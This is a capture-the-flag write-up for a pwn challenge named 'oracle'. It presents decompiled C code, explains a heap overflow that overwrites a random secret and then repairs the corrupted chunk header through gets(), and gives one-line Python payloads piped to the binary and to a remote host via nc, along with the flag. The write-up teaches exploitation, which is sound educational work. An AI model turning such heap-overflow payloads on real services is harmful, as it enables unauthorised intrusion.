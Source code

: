 # Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

Everything is very similar to delphi, see [writeup](../delphi/WRITEUP.md).

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([oracle.c](workdir/oracle.c)) relatively well. 

```c
void FUN_00401334(void *param_1)

{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_0040146b(void)

{
  // REDACTED;
  __s = (char *)malloc(0x10);
  __s2 = (char *)malloc(0x20);
  memset(__s2,0,0x20);
  getrandom(__s2,0x20,0);
  for (local_5c = 0; local_5c < 0x20; local_5c = local_5c + 1) {
    if ((__s2[local_5c] == '\0') || (__s2[local_5c] == '\n')) {
      __s2[local_5c] = '*';
    }
  }
  do {
    if (local_60 == 1) {
      puts("You are a true mind reader.");
      FUN_004013b2(); //printing flag out
LAB_0040165d:
      // REDACTED
      return 0;
    }
    puts("Welcome to the Oracle of Delphi!");
    puts("Hic es forsit ut tuum futurum invenias.\n");
    puts(
        "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
        );
    puts("If not, shall the gods have mercy on your soul.\n");
    printf("What shall I think of (ie What\'s my favorite instrument)? ");
    FUN_00401334(__s);
    printf("So you asked: ");
    puts(__s);
    puts("Okay, now that\'s a good one. Let me think...");
    sleep(2);
    printf("Got it. Any clue what it is I had in mind? ");
    fgets(local_48,0x21,stdin);
    iVar1 = strncmp(local_48,__s2,0x20);
    if (iVar1 != 0) {
      puts("Nope, that\'s not it. You\'re doomed.");
      goto LAB_0040165d;
    }
    puts("Just double checking... What did you say? ");
    gets(__s);
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    free(__s2);
    free(__s);
    local_60 = 1;
  } while( true );
}

```

FUN_00401334 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter deestination. 

FUN_0040146b is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00401334 read function to hould our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, we receive an another chance to read into the input buffer, this time with gets, and the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to check various protections or generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

# Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. The program is using free before printing out the flag, so corrupting the heap structure is a problem this time. 


![](screenshots/6.png)


There is a second read to the input buffer after the check with gets, and can restore the corrupted heap structure. Writing back the fixed structure fixing the problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00\x00\x00")' | ./oracle
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n"+"A"*24+"\x31\x00\x00\x00\x00\x00\x00\x00")' | nc 10.10.8.XX XXXX
```

![](screenshots/8.png)

# Flag

cq23{sUch_@_typ1c4l_r341_w0rld_siTUaT10n_righT?}